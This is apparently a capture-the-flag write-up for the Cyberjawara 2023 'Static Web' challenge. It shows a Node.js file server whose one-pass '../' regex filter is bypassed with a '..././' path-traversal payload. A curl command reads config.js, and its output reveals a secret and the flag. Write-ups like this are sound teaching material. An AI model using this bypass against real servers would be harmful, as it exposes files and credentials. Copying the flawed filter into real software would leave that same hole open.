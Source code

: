 ```yaml
---
comments: true
title: Cyberjawara 2023 Web Writeup
date: 2023-12-04T00:00:00.000+07:00
category:
- ctf
tags:
- cj2023
private: false

---
```


### Static Web - 300pts - 63 solves

Given web application that serves static file by defining custom routes and using `fs.readFile` to read the content. 

```
nodejs

if (req.url.startsWith('/static/')) {
    const urlPath = req.url.replace(/\.\.\//g, '')
    const filePath = path.join(__dirname, urlPath);
    fs.readFile(filePath, (err, data) => {
        if (err) {
            res.writeHead(404);
            res.end("Error: File not found");
        } else {
            res.writeHead(200);
            res.end(data);
        }
    });
} 
```

Known that there could be possibility to path traversal there is a protection using `const urlPath = req.url.replace(/\.\.\//g, '')` but this regex is could be bypassed using `..././flag.txt`

```
bash

curl --path-as-is "https://static-web.ctf.cyberjawara.id/static/..././config.js"
const secret = 'wWij1i23ejasdsdjvno2rnj123123';
const flag = 'CJ2023{1st_warmup_and_m1c_ch3ck}';

module.exports = {secret, flag}%    
```

![Static web flag](/uploads/static-web-flag.png)



